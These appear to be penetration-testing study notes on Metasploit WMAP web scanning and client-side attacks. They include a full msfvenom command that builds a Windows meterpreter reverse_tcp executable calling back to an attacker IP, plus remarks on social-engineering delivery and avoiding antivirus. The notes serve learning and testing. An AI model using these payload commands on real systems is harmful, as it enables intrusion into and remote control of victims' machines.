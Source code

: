#### WMAP Scanning ####

Will do the normal beginning steps:
+ `service postgresql start`
+ `msfconsole`
+ make a new works space `workspace -a NEWNAME`
+ set up the global targets with:
	+ `setg RHOST target`
	+ `setg RHOSTS target`

Using <mark style="background: #D2B3FFA6;">wmap</mark>
+ will first `load wmap`
+ Can now type `wmap_`, then hit tab, and will see the options available 
+ Can add a site with `wmap_sites -a IP`
+ Can add a target with `wmap_targets -t http://IP/`
	+ can include any directory needed 
+ can see `wmap_run -t` too see all the modules that can be scanned for
+ `wmap_run -e` will run all of that is available 
+ can list all found vulnerabilities with `wmap_vulns -l`
	+ `auxiliary/scanner/http/http_put` is a good example of a vulnerability scanner that looks to see if an attacker can use the PUT method on a directory
		+ can be used to upload a web payload


## Client-Side Attacks ##

+ A client-side attack is an attack vector that involves coercing a client to execute a malicious payload on their system that consequently connects back to the attacker when executed 
+ Client-side typically utilizes various social engineering techniques like generating malicious documents or portable executables (PEs)
+ Client-side attacks take advantage of human vulnerabilities as opposed to vulnerabilities in services or software running on the target system
+ Given that this attack vector involves the transfer and storage of a malicious payload on the clients system (disk), attackers need to be cognizant of AV detection 

### Generating Payloads With Msfvenom ###

#### Msfvenom ####
+ <mark style="background: #D2B3FFA6;">Msfvenom</mark> is a command line utility that can be used to generate and encode MSF payloads for various operating systems as well as web servers
+ Combines utilities: `msfpayload` and `msfencode`
+ Can generate meterpreter payload that can be transferred to the client system, will then connect back

<mark style="background: #FF5582A6;">Payloads</mark>
+ Can see all payloads with `msfvenom --list payloads`
+ Will specify payload via `OS_TYPE/ARCHITECTURE/PAYLOAD_TYPE/PROTOCOL`
	+ Example: `windows/x64/meterpreter/reverse_http`
+ Staged vs Not-Staged Payload:
	+ Will know that the payload is staged because the PAYLOAD_TYPE and PROTOCOL will be separated by a `/` not a `_`
	+ Staged Meterpreter payload contain shell code that performs network communications in order to read in the second stage 
+ Example: `msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.0.107 lport=6001 -f exe > securitytutorials.exe`
  + `-a` specifies architecture 
  + `-p` lets you specify which payload you want to use
  + `lhost` this needs to be the attackers IP address you want the payload to connect back to
  + `lport` as above; this is the port the payload will connect on and will need to be set up in the handler
  + `-f` this tells Msfvenom what it should create the payload as
